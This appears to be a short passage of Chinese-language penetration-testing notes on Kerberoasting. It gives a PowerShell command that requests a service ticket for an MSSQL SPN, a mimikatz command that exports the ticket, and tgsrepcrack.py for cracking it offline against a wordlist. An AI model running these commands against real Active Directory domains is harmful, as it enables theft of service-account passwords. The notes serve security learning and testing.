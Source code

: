 ```powershell
$SPNName="MSSQLSvc/web.xxcom.local"
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

![image](./imgs/spn_klist.png)

在 `mimikatz` 中运行 `kerberos::list /export`

![image](./imgs/klist_mimikatz.png)

之后跑的工具为 `tgsrepcrack.py` ，在[这里](https://github.com/nidem/kerberoast)下载就行

`python tgsrepcrack.py wordlist xxxxxx` 即可
